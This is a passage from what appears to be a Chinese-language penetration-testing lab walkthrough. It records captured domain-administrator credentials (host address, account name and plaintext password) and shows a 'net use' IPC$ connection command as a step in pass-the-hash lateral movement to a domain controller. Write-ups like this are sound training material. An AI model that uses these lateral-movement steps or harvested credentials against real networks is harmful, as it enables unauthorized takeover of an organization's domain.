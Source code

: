 ![image-20220617140218313359-1655884188824916.png](img/Untitled.assets/b2510217bbe0c8247aa6448d97ed8d13.png)

确认域管信息：

```
主机地址：192.168.3.200

账户名称：ZSZ\Administrator 

登录密码：mygod.dc123
```

##### 任务13：PTH到域控（T1068 - 利用漏洞进行权限升级、T1570 - 工具横向移动）

查看本地开启的共享：

![image-20220617113936870709-1655884190152312.png](img/Untitled.assets/e862f37eafde933b86ad28d6dd9eb0b5.png)

建立IPC连接：

```
net use \\192.168.3.200\ipc$ "mygod.dc123" /user:"Administrator"
```
